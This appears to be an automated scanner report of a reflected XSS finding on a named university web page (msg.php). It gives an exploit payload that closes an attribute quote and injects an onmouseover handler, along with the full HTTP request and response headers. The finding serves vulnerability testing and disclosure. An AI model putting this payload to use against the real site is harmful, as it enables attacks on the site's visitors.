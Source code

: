 ## http://ies.ecust.edu.cn:80/en/msg.php
| Key | Value |
| --- | ----- |
| XSS类型 | AttibuteValue |
| 时间 | 2024-11-07 17:17:13 |
| XSS位置 | get_parameter |
| 隐藏参数 | true |
| Key | keywords |
| 描述 | 引号可被闭合,可使用其他事件造成xss,TagName:input,type:"text" |
| Payload | keywords="vutmw4 |
| 利用payload | keywords="onmouseover=prompt(1) |

### 请求包
```
GET /en/msg.php?api=buxz6&begindate=chya0&c=tjdp2&callback=q8lw8&categoryid=famz9&csrf_token=p9ru8&id=300&immagine=ztwh3&jsonp=ni8d2&keyword=xf1m7&keywords=%22vutmw4&l=my8a1&list_type=km266&month=pshy5&query=h4757&redirect=d1dn5&text=vnud2&tid=r25q0&unsubscribe_token=fnri7&view=pea59 HTTP/1.1
Host: ies.ecust.edu.cn:80
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip


```

### 返回Header
```
Referrer-Policy: strict-origin-when-cross-origin strict-origin strict-origin-when-cross-origin strict-origin
Connection: keep-alive
X-Permitted-Cross-Domain-Policies: master-only master-only
X-Content-Type-Options: nosniff nosniff
Date: Thu, 07 Nov 2024 17:17:09 GMT
Server: none
Content-Type: text/html
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Set-Cookie: PHPSESSID=rkpk4h9q7j3jgbur0ab4e67oa4; path=/; secure; HttpOnly Path=/; HttpOnly; Secure
X-Download-Options: noopen noopen
X-Frame-Options: SAMEORIGIN SAMEORIGIN SAMEORIGIN SAMEORIGIN
Expires: Thu, 19 Nov 1981 08:52:00 GMT
X-Xss-Protection: 1; mode=block 1; mode=block
Pragma: no-cache

```

